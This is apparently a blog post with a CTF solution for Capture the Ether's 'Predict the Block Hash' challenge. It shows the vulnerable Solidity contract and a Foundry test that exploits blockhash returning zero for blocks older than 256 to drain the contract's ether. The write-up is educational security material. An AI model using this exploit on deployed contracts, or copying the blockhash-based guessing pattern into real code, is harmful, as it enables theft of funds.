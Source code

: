 ```yaml
---
title: Capture the Ether (RareSkills Repo) - Predict the Block Hash - Solution
date: '2023-11-26'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Capture the Ether - Predict the Block Hash CTF
---
```


# Capture the Ether (RareSkills Repo) - Predict the Block Hash - Solution

## Contract

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

//Challenge
contract PredictTheBlockhash {
    address guesser;
    bytes32 guess;
    uint256 settlementBlockNumber;

    constructor() payable {
        require(msg.value == 1 ether, "Requires 1 ether to create this contract");
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(bytes32 hash) public payable {
        require(guesser == address(0), "Requires guesser to be zero address");
        require(msg.value == 1 ether, "Requires msg.value to be 1 ether");

        guesser = msg.sender;
        guess = hash;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser, "Requires msg.sender to be guesser");
        require(block.number > settlementBlockNumber, "Requires block.number to be more than settlementBlockNumber");

        bytes32 answer = blockhash(settlementBlockNumber);

        guesser = address(0);
        if (guess == answer) {
            (bool ok,) = msg.sender.call{value: 2 ether}("");
            require(ok, "Transfer to msg.sender failed");
        }
    }
}
```

## Exploit

To exploit this contract, it's important to know that `blockhash` only returns the actual block hash for the last 256 blocks due to performance reasons. For any blocks that lie further in the past, `blockhash` will return `0x0000000000000000000000000000000000000000000000000000000000000000`.

Therefore, we can call `lockInGuess` with `hash = 0x0000000000000000000000000000000000000000000000000000000000000000`, wait until the corresponding block lies far enough in the past, and finally call `settle`.

_PredictTheBlockhash.t.sol_

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

import "../src/PredictTheBlockhash.sol";

contract PredictTheBlockhashTest is Test {
    PredictTheBlockhash public predictTheBlockhash;

    function setUp() public {
        predictTheBlockhash = (new PredictTheBlockhash){value: 1 ether}();
    }

    function testExploit() public {
        // Set block number
        uint256 blockNumber = block.number;

        // Put your solution here
        predictTheBlockhash.lockInGuess{value: 1 ether}(
            0x0000000000000000000000000000000000000000000000000000000000000000
        );

        vm.roll(blockNumber + 258);
        predictTheBlockhash.settle();

        _checkSolved();
    }

    function _checkSolved() internal {
        assertTrue(predictTheBlockhash.isComplete(), "Challenge Incomplete");
    }

    receive() external payable {}
}
```
